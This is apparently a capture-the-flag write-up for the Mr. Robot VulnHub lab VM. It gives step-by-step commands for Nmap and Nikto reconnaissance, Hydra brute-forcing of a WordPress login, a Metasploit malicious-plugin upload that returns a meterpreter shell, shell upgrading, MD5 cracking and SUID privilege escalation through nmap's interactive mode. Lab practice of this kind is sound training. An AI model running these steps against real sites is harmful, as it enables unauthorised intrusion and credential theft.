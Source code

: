 # Mr.ROBOT-VulnHub
Gear up, decrypt the code, and embrace the thrill of uncovering vulnerabilities in a controlled and safe environment. The Mr. Robot VulnHub awaits those ready to test their mettle in the ever-evolving landscape of ethical hacking.  Are you up for the challenge? 💻🚀

This Report is about hacking a virtual machine called Mr. Robot, which is based on the popular TV series of the same name. The speaker, Pablo Brusseel, is an ethical hacker who will guide you through the process of hacking the machine.
In the Report, I've used a variety of tools to hack the machine, including Nmap, Webliser, Nicto, Hydra, and a fake plugin. Able to gain root access to the machine and find the three keys that are needed to complete the Mr. Robot challenge.
Based on the show, Mr. Robot: Three keys to this virtual machine are stashed in various places. To locate all three is your objective. Every key is getting harder to locate. The VM isn't too challenging. Reverse engineering or sophisticated exploitation are not present. It is categorised as beginner-intermediate.
Let's start by downloading the MR.ROBOT machine from VulnHub Mr-Robot. With Attacking OS: Kali 2020.2 (VM) & Windows 10 (Host).
The first is a virtual machine running Kali Linux that has 25GB of HDD, 3V CPU, and 4GB of RAM. The Mr. Robot virtual machine is the second: 1. I'm utilising the 1 vCPU and 256 MB RAM default resource allocation that the ova specifies. These virtual machines are connected to a Nat network that I set up with DHCP enabled.


# Reconnaissance and Enumeration:
We have to initiates the reconnaissance phase with Nmap, meticulously scanning the virtual machine for exploitable vulnerabilities and open ports. So it uncovers a robots.txt file containing a crucial key and a dictionary file named fsociety.dic, hinting at potential entry points.(if you don't find the IP use ARP scan >> arp-scan -l )

 ```bash
nmap -sV -sC 10.0.2.6(MR.ROBOT_IP)
```


# Information Gathering:
An nmap scan of the local subnet reveals four devices—including the Kali virtual machine—on the network. Two open ports are also displayed by the nmap scan: 443 for https and 80 for http. For SSH, port number 22, is displayed as closed. This removes the possibility of a simple way to compromise the target. It's possible that the target is hosting a website if the ports are open.


After trying out a Nikto scan or using nmap with -script switch and the script as http-enum. Right off the bat, the result shows that the website runs on wordpress. It also shows the version of wordpress. On trying some of the obviously interesting urls, 
I find the wordpress login page …

```bash
nikto –host 10.0.2.6
```

Try to find any hidden directories in the bowers or you can use the dirbuster command .
Use 
```bash
dirb http://10.0.2.6
```

We suspected that the webserver has robots.txt file. Check it in the browser and do the next steps to get the first flag.
download the files 
use 
```bash
wget http://10.0.2.6/fsocity.dic
```

The extension makes it quite evident that the file is most likely a dictionary . However, we'll execute the head command on it to view a portion of its contents just to be sure.
Use 
```bash
head fsocity.dic
```
Word count in the original file is 858160. How are we aware? employing the flag -l (line) and the wc command (word count)
Use 
``bash
wc -l fsocity
```

Using the following command, we can scrolled through the wordlist to see it’s contents.
Use 
``` bash
cat fsocity.dic | more
```
Use the next command to find unique words per line  
```bash
sort fsocity.dic| uniq | wc -l
```

After sorting the words save it to new file 

```bash
sort fsocity.dic | uniq > fsocity_filtered.dic
```

After filtering it we are left with 11451 words from 85816

# Exploitation and Privilege Escalation:

Now try doing some random entries in the browser in the user name and password section.
Learn from what output you get,


It shows that the random user name and passwords you entered is invalid. Its specifically saying “INVALID USERNAME” So we have the list of users name and we can check it in the browser by trying  brute forcing it in the browser. so we're going to use two tools  for that the first one is going to be  burp suite  which is basically going to act as a  tool to  see what kind of requests are being sent  over to the web server. 

For burpsuit i used foxy poxy and this are its settings, so i'm going to go  ahead and set up the proxy i'm going to  go to options and set hostname where Burp is listening on the correct  interface. we want to intercept responses  as well and we don't really care about websocket  messages so can keep the setting off by unchecking the box. Now in order to run our traffic through  burp we need to go ahead and  set up the proxy i'm using foxy proxy  for this i actually have this  setup already. If you want to go to  options  and burp suite this is how i've set it  up so i'm basically referring to my  own computer on port 8080  which is also where burp is listening.

Now, its time use hydra to hack or enumerate the username where we are going to use the information obtained from burp intercept. I used hydra and the file fsocity_filtered.dic together with a one-word password to brute-force the username. The wp-login page's source can be utilised to determine the parameter that is used. "log" is the username and "pwd" is the password fields. "Invalid" is the response I tested against.

```bash
hydra -L fsocity_filtered.dic -p something 10.0.2.6 http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username”
```


The scan is not fully  finished but we see that we  already have a user called elliott and if we go to my wordpress and i type in elliott, instead you're  going to see that we get  a little bit of a different error  message. So my burp is still holding this up  the password field is empty  so now we have the password you entered  for username elliot is incorrect  which is actually a good thing  because now we know that elliott is a  valid user  now i'm going to check again with hydra  if  the password is also in that file so  we're going to  adjust our command a little bit so it's  going to fail on  is incorrect and give us the rest  as a valid entry.

Elliot appears to be our username; let's try this again, this time making sure we have the password. Use the new hydra command:
```bash
hydra -l elliot -P fsocity_filtered.dic 10.0.2.6 http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect”
```



Great! We've successfully obtained the password ER28–0652. Now, we can use these credentials to log in.

Upon exploring, it appears that the WordPress installation is inactive. There are no pages, no posts, and only one additional user, mich05654, who isn't an administrator—so we can disregard this user.

Our next step is to utilize the WordPress admin privileges to gain access to the webserver. To achieve this, we'll employ Metasploit.

Use :-
```bash
msfconsole
```

```bash
search wordpress shell
```

``` bash
exploit/unix/webapp/wp_admin_shell_upload or use 1
```

We’re going to use a Metasploit Module that will create a malicious plugin and upload it to the WordPress installation, giving us a meterpreter shell back.

Use 
```bash
show options
```



Use:- 

msf6 exploit(unix/webapp/wp_admin_shell_upload) >    
```bash 
set PASSWORD ER28-0652
```
PASSWORD => ER28-0652
msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
``bash 
set USERNAME elliot
```
USERNAME => elliot
msf6 exploit(unix/webapp/wp_admin_shell_upload) >
```bash
set RHOST 10.0.2.6
```
RHOST => 10.0.2.6
msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
```bash
set WPCHECK false
```
WPCHECK => false
msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
```bash
exploit
```




Now the shell that we have right now is  still limited  so now escape the shell and  basically spawn a better one and i'm  going to do that with python so i'm  going to say python  -c and i'm going to write some  python code to  import pty  then pty spawn  and then the shell that we want to spawn  which is going to be bin  bash and close all the brackets  so we now have imported  in shell.
 
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



If we now go to the user’s desktop at /home/robot, we can see the second key there, as well as a file called password.raw-md5



Now we got the hash from the raw-md5 file for the account “robot”. 
## Robot:c3fcd3d76192e4007dfb496cca67e13b

The md5 hash can be cracked by hashcat but since its is been hashed we can check it online on Crackstation.


Great !  we got the second flag.
Let's use Python to spawn a bash shell using our meterpreter shell. After obtaining our bash shell, we can log in as a robot to increase our level of access.
We’ll be using the following command to check for binaries with the SUID bit set:
```bash
find / -perm -4000 -type f 2>/dev/null
```
With this command, we can check for binaries that can run commands as it’s owner. In our case, we found the following files:




In order to locate the third key, I looked for a file whose name started with "key-3-." The root directory contains the third key file. The third and last key to the box can be obtained by catalysing the file. 
Use 
```bash
nmap –interactive
```
```bash
!whoami
```

```bash !ls /root
```

```bash
!cat /root/key-3-of-3.txt'
```



Indeed, the third and last key is now in our possession!

After finding a WordPress installation, we were able to compromise the Mr. Robot virtual machine (VM), upload a malicious plugin, and escalate privileges using nmap to obtain root authorization.

